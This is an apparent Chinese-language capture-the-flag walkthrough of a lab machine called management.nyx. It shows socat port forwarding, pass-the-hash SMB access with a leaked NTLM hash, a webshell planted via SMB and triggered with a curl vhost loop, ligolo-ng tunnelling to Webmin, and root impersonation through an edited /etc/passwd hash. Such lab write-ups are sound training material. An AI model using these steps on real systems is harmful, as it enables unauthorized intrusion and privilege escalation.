##### 只有hash想访问smb 的shares,只能用smbclient.py,但是这个工具只支持目标端口是135或445的，没有提供改端口参数，可以用socat绕过

#### 让smbclient.py先连接本地的445端口的socat,再让socat转发过去

### 绕过端口限制



```bash
 sudo socat TCP-LISTEN:445,fork,bind=127.0.0.1 TCP:192.168.56.114:4445
```

##### **`fork`**：这是一个极其关键的参数。意思是“来一个连接，就分裂出一个子进程去处理”。这样它就能`同时接住多个连接，互不干扰`

##### nginx配置文件可能

```bash
server {
    listen 80;
    server_name management.nyx;
    root /var/www/html;
    location ~ \.php$ {
        deny all;   # 这个 server 块禁止解析 PHP
    }
}

server {
    listen 80;
    server_name dev.management.nyx;
    root /var/www/html;   # 同一个目录
    location ~ \.php$ {
        fastcgi_pass unix:/run/php/php7.4-fpm.sock;   # 这个 server 块允许解析 PHP
    }
}
```

每台虚拟主机的/ 都指向同一个物理目录

#### 存在php解释器





```bash
HOST-RESOURCES-MIB::hrSWRunParameters.421 = STRING: "/usr/local/bin/smbserver.py resource /var/www/html/manager_backup -username crow -hashes :F9FE0310AF66C797A73CB60B1953FCD7 -smb2"
```

#### 之前snmp看到web目录映射smb shares 的RESOURCE目录,hash也是snmp发现的

### 上传shell然后用web触发

### smb shares上传的木马，如果这个虚拟主执行不了，可以换另一个虚拟机来执行

```bash
smbclient.py -hashes :F9FE0310AF66C797A73CB60B1953FCD7 crow@127.0.0.1
```





### 虚拟主机爆破并不是自动发现所有虚拟主机，而是通过发送不同的 HTTP `Host` 请求头，找出与基准响应不同的结果。如果不同虚拟主机返回的响应看起来相同，扫描器就可能漏报



### 什么都是返回200

### 这种情况下，就不能想要爆破出虚拟主机的名字，

#### 直接写curl脚本，批量访问虚拟主机的目录的木马，

### 用这个字典Desktop/subdomains-top1million-5000.txt 带上  -H "Host: $sub.management.nyx"  curl 批量访问http://192.168.56.114/manager_backup/shell.php,

## 只打印 超时的，就能看到真正有效的vhost了

```bash
while read sub; do
    # 跳过空行
    if [ -z "$sub" ]; then continue; fi

    # 发起请求
    code=$(curl -s --connect-timeout 2 --max-time 3 -o /dev/null -w "%{http_code}" -H "Host: ${sub}.management.nyx" http://192.168.56.114/manager_backup/shell.php)

    # 只打印超时 (000)
    if [ "$code" = "000" ]; then
        echo "[-] ${sub}.management.nyx -> TIMEOUT"
    fi
done < Desktop/subdomains-top1million-5000.txt
```



### 也是把我们之前写在web目录里的shell执行了，弹了回来



# 本地提权



## 有个webmin服务 请求一下



## 复制内容到本机，整理格式




## curl无法验证自签名的证书合法性，所以没有连接



#### 用  -k  参数跳过证书认证

## 需要一个正向代理工具来做转发，让我们能从本地web访问到目标的127.0.0.1:10000

#### 刚好 ligolo-ng 有这个功能

#### 魔法网段

##### 如果你需要访问当前连接的 agent 的本地端口，Ligolo-ng 里硬编码了一个"magic" IP：`240.0.0.1`（这个 IP 属于一个未使用的 IPv4 子网）。如果你向这个 IP 发起查询，Ligolo-ng 会自动把流量重定向到 agent 的本地 IP（127.0.0.1）。

### 先把路由规则写入网卡

```bash
sudo ip route add 240.0.0.1/32 dev ligolo
```

#### 然后访问

### https://240.0.0.1:10000





### 发现走的都是系统/etc/shadow密码，任意用户能改这个密码，

历史上 Unix 最早就是把密码 hash 直接放在 `/etc/passwd` 第二个字段里（后来才把 shadow 分离出去），只要第二个字段不是 `x`（不是让它去找 shadow），`系统就会直接用这个字段里的 hash 来验证登录`。

### 先生成一个密码hash

```bash
openssl passwd -1 hack123

$1$rRkTavqa$6lU6Eqfi/qvcjzn56/D5T.
```

### 改好了



# 登录上了，改完密码需要等一会才能登录上



## 但是里面啥都没有



## 设置uid为0

#### 看一下有没有管理员权限



### 能登录进去，但是没有管理员权限，因为管理员这里面还会有很多选项的

### 我们在把名字改为root,看能不能冒从管理员，如果可以，就说明之前创建的hacker用户的uid位置不生效，或是linux之允许有一个root用户

### 成功了





## 可以看到uid乱设置都行，这个校验单纯是用系统的用户名字 来比对miniserv.users的密码来的，根据系统用户的名字来授权

## 弹个shell过来就好了




